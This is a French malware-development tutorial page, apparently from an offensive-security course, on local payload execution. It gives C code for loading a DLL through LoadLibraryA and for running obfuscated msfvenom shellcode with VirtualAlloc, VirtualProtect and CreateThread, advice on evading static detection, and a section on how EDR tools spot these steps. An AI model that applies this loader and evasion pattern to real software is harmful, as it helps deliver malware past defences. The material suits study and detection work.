

# Exécution locale de payload

L'exécution locale consiste à faire tourner un payload directement dans le processus du malware lui-même, sans toucher à un autre processus. C'est le point d'entrée conceptuel de toute la chaîne d'exécution : une fois la mécanique comprise dans le processus courant, les mêmes briques se transposent à l'injection distante. Deux formats dominent : la **DLL**, chargée par le système, et le **shellcode**, écrit en mémoire puis exécuté.



## Exécution locale d'une DLL

Une DLL est un module PE sans point d'entrée utilisateur classique : tout passe par `DllMain`, appelée par le loader avec une raison (`dwReason`). Le code utile est donc placé dans la branche `DLL_PROCESS_ATTACH`, exécutée dès que la DLL est mappée. Le module [[Dynamic-Link Library]] détaille ce cycle de vie.

```c
#include <Windows.h>

VOID MsgBoxPayload() {
    MessageBoxA(NULL, "Hacking With MaldevAcademy", "Wow !", MB_OK | MB_ICONINFORMATION);
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD dwReason, LPVOID lpReserved) {
    switch (dwReason) {
        case DLL_PROCESS_ATTACH:
            MsgBoxPayload();   // code exécuté au chargement
            break;
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```

Côté client, il suffit d'appeler `LoadLibraryA` avec le chemin de la DLL. Le loader résout les imports, mappe les sections et déclenche `DllMain` : le payload s'exécute sans que l'appelant ne sache rien de son contenu.

```c
#include <Windows.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
    if (argc < 2) {
        printf("[!] Missing Argument; Dll Payload To Run \n");
        return -1;
    }

    printf("[i] Injecting \"%s\" To The Local Process Of Pid: %d \n", argv[1], GetCurrentProcessId());

    if (LoadLibraryA(argv[1]) == NULL) {   // mappe la DLL dans le processus courant
        printf("[!] LoadLibraryA Failed With Error : %d \n", GetLastError());
        return -1;
    }

    printf("[#] Press <Enter> To Quit ... ");
    getchar();
    return 0;
}
```

Cette approche est intéressante parce qu'elle **externalise le payload** : le binaire porteur ne contient aucun code malveillant, ce qui complique la détection statique. En revanche, la DLL reste un fichier **sur disque**, donc visible et scannable.

### Vérification côté analyse

Dans Process Hacker, l'onglet **Modules** du processus listé signale la DLL chargée, avec ses imports, ses sections et l'état de sa signature. Une DLL non signée, chargée depuis un chemin temporaire, constitue un signal fort pour l'analyste comme pour l'EDR.

## Exécution locale de shellcode

Le shellcode est un flux d'octets position-independent : il ne peut pas être « chargé » par le loader, il faut lui fabriquer une zone mémoire exécutable. Trois appels WinAPI suffisent, décrits dans [[Gestion de la mémoire Windows]] et [[Windows API]].

| API | Rôle | Paramètres clés |
|---|---|---|
| `VirtualAlloc` | Réserver et committer la mémoire du payload | `flAllocationType = MEM_RESERVE \| MEM_COMMIT`, `flProtect = PAGE_READWRITE` |
| `VirtualProtect` | Rendre la zone exécutable | `flNewProtect = PAGE_EXECUTE_READ` ou `PAGE_EXECUTE_READWRITE` |
| `CreateThread` | Lancer le shellcode dans un thread dédié | `lpStartAddress = adresse du shellcode` |

Comme le payload circule en clair en mémoire dès lors qu'il est désobfusqué, il est préférable de l'obfuscater au repos à l'aide de [[Outils HellShell et MiniShell]] (`HellShell.exe msfvenom.bin uuid` produit un tableau `UuidArray` reconstruit par `UuidDeobfuscation`). Le [[Chiffrement du payload]] et l'[[Obfuscation du payload]] traitent en détail ces transformations.

### Séquence d'exécution

1. **Désobfusquer** le payload dans un buffer heap (`UuidDeobfuscation` renvoie l'adresse et la taille réelle).
2. **Allouer** avec `VirtualAlloc(NULL, taille, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE)` — on écrit seulement, donc pas de droit d'exécution à ce stade.
3. **Copier** le shellcode par `memcpy`, puis écraser le buffer source avec des zéros (`memset`) pour ne pas laisser le payload en clair à deux endroits.
4. **Rendre exécutable** via `VirtualProtect(..., PAGE_EXECUTE_READWRITE, &dwOldProtection)`.
5. **Exécuter** dans un nouveau thread et **patienter**.

```c
PVOID pShellcodeAddress = VirtualAlloc(NULL, sDeobfuscatedSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
memcpy(pShellcodeAddress, pDeobfuscatedPayload, sDeobfuscatedSize);
memset(pDeobfuscatedPayload, '\0', sDeobfuscatedSize);   // réduit la rétention du payload en clair

DWORD dwOldProtection = 0;
VirtualProtect(pShellcodeAddress, sDeobfuscatedSize, PAGE_EXECUTE_READWRITE, &dwOldProtection);

HANDLE hThread = CreateThread(NULL, NULL, pShellcodeAddress, NULL, NULL, NULL);
WaitForSingleObject(hThread, 2000);   // laisse le thread travailler avant de continuer
```

> [!warning] Ne pas oublier d'attendre
> Sans `WaitForSingleObject`, le thread principal peut se terminer avant le thread de travail : le processus meurt et le shellcode ne s'exécute jamais. On attend un délai fixe (`2000` ms) ou indéfiniment (`INFINITE`).

### Thread dédié ou pointeur de fonction

Une variante plus simple consiste à caster l'adresse du shellcode en pointeur de fonction, ce qui revient à un saut direct vers le code.

```c
(*(VOID(*)()) pShellcodeAddress)();

// Forme équivalente, plus lisible
typedef VOID (WINAPI* fnShellcodeFunc)();
fnShellcodeFunc pShell = (fnShellcodeFunc) pShellcodeAddress;
pShell();
```

| Critère | `CreateThread` | Pointeur de fonction |
|---|---|---|
| Contexte d'exécution | Nouveau thread de travail | Thread appelant (souvent le principal) |
| Fin du shellcode qui appelle `ExitThread` | Seul le thread de travail meurt | Le processus entier se termine |
| Attente possible | Oui, via `WaitForSingleObject` | Non, exécution bloquante |
| Usage recommandé | Cas général | Payload qui rend la main proprement |

Le shellcode généré par Metasploit termine le thread appelant à la fin de son exécution. En pointeur de fonction, cela signifie la mort du thread principal donc du processus : c'est pourquoi le thread dédié est la norme.

### Libération de la mémoire

`VirtualFree` libère une zone précédemment allouée. Elle ne doit être appelée **qu'après** la fin du payload, sous peine de libérer du code en cours d'exécution et de faire planter le processus.

| Flag `dwFreeType` | Effet | Contrainte |
|---|---|---|
| `MEM_DECOMMIT` | Libère la mémoire physique, conserve l'espace d'adressage réservé | Peut être suivi d'un nouveau commit |
| `MEM_RELEASE` | Libère à la fois l'espace virtuel et la mémoire physique | `dwSize` doit valoir `0` |

## Détection

- Une région mémoire `RWX` (`PAGE_EXECUTE_READWRITE`) allouée par `VirtualAlloc` est un marqueur classique : Process Hacker la met en évidence et les scanners mémoire la repèrent immédiatement. La séquence RW puis RX est plus discrète mais reste surveillée.
- Les solutions EDR tracent l'enchaînement `VirtualAlloc` → écriture → `VirtualProtect` → `CreateThread`, typique de l'exécution de shellcode en mémoire.
- Le chargement d'une DLL non signée depuis un répertoire inhabituel déclenche l'analyse des modules et un contrôle de réputation.
- L'analyse statique du binaire reste aveugle sur un payload externalisé (DLL sur disque ou shellcode obfusqué) : c'est tout l'intérêt de la séparation entre le porteur et le payload. Voir [[Mécanismes de détection]] et [[Placement du payload]].

La technique par thread sert de socle aux variantes distantes décrites dans [[Injection de shellcode]] et [[Injection de DLL]], où le même enchaînement d'appels est appliqué à un processus tiers.
